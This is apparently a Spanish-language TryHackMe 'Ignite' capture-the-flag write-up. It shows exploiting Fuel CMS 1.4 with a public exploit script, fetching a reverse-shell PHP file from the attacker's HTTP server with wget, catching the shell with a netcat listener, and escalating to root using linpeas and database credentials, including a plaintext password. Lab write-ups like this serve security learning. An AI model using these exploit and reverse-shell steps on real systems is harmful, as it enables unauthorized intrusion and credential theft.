

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/ignite/index.html · generator: mkdocs

# Ignite

![](../../assets/img/Pasted_image_20251015122903.png)

![](../../assets/img/Pasted_image_20251015122856.png)

`searchsploit` fuel cms 1.4
`searchsploit -p php/webapps/50477.py`
`python3 50477.py -u http://10.10.180.42`
Accedemos a www-data mediante el script, ahora nos lanzaremos una revshell

En nuestro kali en /path/ignite:
`python3 -m http.server`
Desde el script nos traemos el archivo con la revshell:
`wget http://10.8.63.150:8000/shell.php`
Nos ponemos a la escucha en kali con netcat
`nc -nlvp 4444`
Ejecutamos el archivo php desde la máquina víctima:
`php shell.php`
**www-data**

## Escalada

Pasamos por *python3 http.server* el script *linpeas.sh* (/usr/share/peass/linpeass.sh), le damos permisos de ejecución en la máquina víctima y lo ejecutamos para que nos diga como poder escalar
En el archivo */var/www/html/fuel/application/config/database.php* sugerido en:

![](../../assets/img/Pasted_image_20251015133141.png)

Encontramos credenciales

![](../../assets/img/Pasted_image_20251015133105.png)

`su root` (mememe)
**root**
